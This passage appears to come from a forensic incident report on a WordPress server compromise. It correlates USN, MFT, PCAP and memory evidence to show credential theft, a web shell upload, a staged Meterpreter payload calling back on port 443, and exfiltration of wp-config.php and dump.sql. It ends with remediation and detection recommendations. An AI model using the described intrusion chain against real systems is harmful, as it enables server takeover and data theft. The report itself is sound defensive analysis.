| Timestamp (UTC) | Event | Evidence |
|---|---|---|
| 2024-03-23 04:08:50 | Victim GET /stg.exe from http://10.103.8.81/stg.exe — suspect
returned HTTP 200, content-length 251,904 |
PCAP-2 + victim PowerShell EVTX + suspect Python netscan socket |
| before 04:11:16 | Web shell received cmd=stg.exe — executed the staged payload |
PCAP-2 shell.php POST body |
| 2024-03-23 04:11:16 | TCP Stream 139 callback began: 192.168.1.100:53702 → 10.103.8.81:443 |
PCAP-2 frame 4271 + suspect msfvenom LPORT=443 |
| 2024-03-23 04:17:44 | Victim USN Journal: dump.sql FileCreate | Victim USN Journal |
| 2024-03-23 04:18:26 | Victim USN Journal: dump.sql write complete — size 5,083,961 bytes | Victim USN Journal + MFT |
| 04:19:00–04:19:24 | Stream 139 encrypted burst: 4,993,712 bytes victim→suspect, frames 8124–12101 | PCAP-2 tshark stream direction analysis |
| 2024-03-23 04:19:21 | Suspect MFT: dump.sql appeared under Windows\System32 — SHA-256 matches
victim copy |
Suspect MFT + USN + hash comparison |
| 2024-03-23 09:03:34 | Defender detected stg.exe / Meterpreter DLL activity on victim | Victim Defender Operational EVTX + SRUM |
Cross-Source Correlation
The final conclusion rests not on any single artifact, but on the alignment of independent evidence streams across all four sources. Encrypted traffic prevented packet-level content inspection; transient shell commands were not always preserved in a single log. Correlation across sources resolved both gaps.
dump.sql Transfer — The Core Correlation
Five independent artifact streams converge on the same 42-second window:
| Artifact | Timestamp | Source | Evidence Type |
|---|---|---|---|
| Victim USN — dump.sql FileCreate | 04:17:44 UTC | Victim | USN Journal |
| Victim USN — dump.sql write complete, 5,083,961 bytes | 04:18:26 UTC | Victim | USN + MFT |
| Stream 139 victim→suspect burst begins — 4,993,712 bytes, frames 8124–12101 | 04:19:00–04:19:24 UTC | Network | PCAP-2 tshark |
| Suspect MFT — dump.sql FileCreate under Windows\System32 | 04:19:21 UTC | Suspect | MFT + USN |
| SHA-256 hash — identical on both victim and suspect copies | — | Cross-Source | Get-FileHash |
| File size — 5,083,961 bytes on both hosts | — | Cross-Source | MFT + Get-FileHash |

Integrated Case Timeline
The following visualization synthesizes all four evidence sources into a unified chronological view of the intrusion lifecycle — from credential acquisition through exploitation, post-exploitation, and database exfiltration:

Four Key Correlation Lessons
- USN and MFT artifacts were essential for narrowing the dump.sql creation and transfer window to 42 seconds — no other source provided that precision.
- Pagefile and memory residue preserved SCP, SSH, and staging commands that were not fully available from standard application logs.
- Volatility process ancestry tied
cmd.exe,powershell.exe,scp.exe, andssh.exeto Apache-spawned execution rather than ordinary administration — a critical distinction. - Packet captures were most reliable when interpreted after host artifacts had identified the relevant IPs, URIs, files, and timestamps. The capture confirmed what the host evidence predicted.
Conclusion & Recommendations
What Was Confirmed vs. Attempted
| Activity | Status | Basis |
|---|---|---|
| Credential harvesting of hierro's WordPress password | Confirmed | hierro.txt plaintext note + LAN Messenger delivery + pagefile credential residue |
| WordPress login as hierro | Confirmed | PCAP-1 cleartext POST + 302 redirect + auth cookies |
| shell.php upload via Backup Guard | Confirmed | PCAP-1 frame 7630 fingerprint match to 50093.py |
| wp-config.php exposure via shell | Confirmed | PCAP-1 HTTP response stream + victim disk |
| SCP transfer of wp-config.php to suspect | Attempted | Victim EVTX + pagefile + Volatility — no received file recovered on suspect |
| stg.exe staged and executed on victim | Confirmed | PCAP-2 + victim PowerShell EVTX + Defender detection |
| dump.sql transfer via Stream 139 | Strongly corroborated | USN/MFT timing convergence + direction-specific burst + identical SHA-256 hash |
Top Recommendations
- Preserve all evidence materials — disk images, memory dumps, PCAP files, parsed artifacts, and this report — for administrative or legal review.
- Remove the victim server from production; rebuild from a trusted baseline rather than in-place cleanup.
- Forensically audit the workstation at
10.103.8.72— LAN Messenger artifacts identify it as hierro's host during the credential-lure workflow. - Rotate all WordPress, MySQL, Windows, SSH, and application credentials exposed through
wp-config.phpanddump.sql. - Audit and revoke unauthorized SSH keys; restrict SSH/SCP paths between servers and ordinary workstation addresses.
- Harden WordPress plugin governance — remove unnecessary plugins, disable risky restore/upload functionality, monitor Backup Guard workflows.
- Segment Projects and Patents data — the shared MySQL backend was the root cause of patent exposure through a Projects-facing exploit.
- Add EDR rules for web-server processes spawning
cmd.exe,powershell.exe,scp.exe,ssh.exe, or scripting runtimes. - Add network monitoring for high-volume encrypted outbound sessions from server processes to workstation IPs on TCP/443 and TCP/22.
- Centralize Apache, WordPress, PowerShell, OpenSSH, Defender, SRUM, and Windows event logging to eliminate dependence on pagefile/memory residue for command reconstruction.